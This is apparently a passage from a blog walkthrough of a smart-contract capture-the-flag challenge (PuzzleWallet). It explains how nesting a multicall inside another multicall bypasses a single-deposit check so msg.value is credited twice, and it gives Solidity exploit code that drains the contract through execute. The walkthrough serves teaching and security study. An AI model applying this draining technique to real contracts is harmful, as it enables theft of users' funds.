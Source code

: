To finish the challenge and become the `admin` of the Proxy, we must drain the contract by calling `execute` and making it use that `0.001 ether` balance. The problem is that execute will only use the balance of the user if it's equal to `msg.sender` and there's no way we can exploit that mechanism.

We can't rely on `deposit` because even if we deposit something and then call `execute` we couldn't use more than what we have deposited. So, now what?

Let's look at the `multicall` function code and see if there's something we can exploit over there

```solidity
function multicall(bytes[] calldata data) external payable onlyWhitelisted {
    bool depositCalled = false;
    for (uint256 i = 0; i < data.length; i++) {
        bytes memory _data = data[i];
        bytes4 selector;
        assembly {
            selector := mload(add(_data, 32))
        }
        if (selector == this.deposit.selector) {
            require(!depositCalled, "Deposit can only be called once");
            // Protect against reusing msg.value
            depositCalled = true;
        }
        (bool success, ) = address(this).delegatecall(data[i]);
        require(success, "Error while delegating call");
    }
}
```

The function allows the user to batch together multiple calls to spare some gas and as you can see has a check to allow only one `deposit` inside the batched calls. This check is needed to prevent someone to add more than one `deposit` while sending some ether. Without that check, you would be able to double account for the ether sent.

For example, if I sent `1 ether` and have two deposits, at the end of the transaction, the `balances[msg.sender]` would be equal to `2 ether` while I've sent only `1 ether`.

So, how can we exploit this? While it's true that we can't have two deposits inside of one `multicall`, what if we can batch one `deposit` and then another `deposit` inside another `multicall`?

A **multicall-inception!**

![Mind Blown Explosion](/assets/blog/mind-blown-explosion.gif)

Let's prepare the `multicall` call

```solidity
bytes[] memory callsDeep = new bytes[](1);
callsDeep[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

bytes[] memory calls = new bytes[](2);
calls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
calls[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, callsDeep);
puzzleWallet.multicall{value: 0.001 ether}(calls);

// At this point inside the contract there are 0.002 ether (one is from us and one from the PuzzleWalletFactory)
// But `balances[player]` is equal to 0.002 ether!
// We are able to call the `execute` method in a way that will send to us the whole contract's balance
puzzleWallet.execute(player, 0.002 ether, "");
```
